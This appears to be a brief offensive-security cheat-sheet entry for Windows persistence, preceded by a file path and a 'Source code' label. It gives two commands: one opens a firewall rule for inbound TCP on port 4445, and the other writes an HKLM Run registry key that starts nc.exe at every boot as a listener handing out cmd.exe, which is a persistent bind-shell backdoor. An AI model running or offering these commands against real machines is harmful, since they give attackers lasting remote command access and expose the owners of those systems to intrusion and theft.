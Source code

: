 # cmd.exe
% windows, persistence

#plateform/windows #target/local #cat/PERSIST #tag/cmd 

# registry bind listener
netsh advfirewall firewall add rule name='netcat' dir=in action=allow protocol=Tcp localport=4445
```
reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v <name> -d 'C:\windows\temp\nc.exe -Ldp <port> -e cmd.exe'
```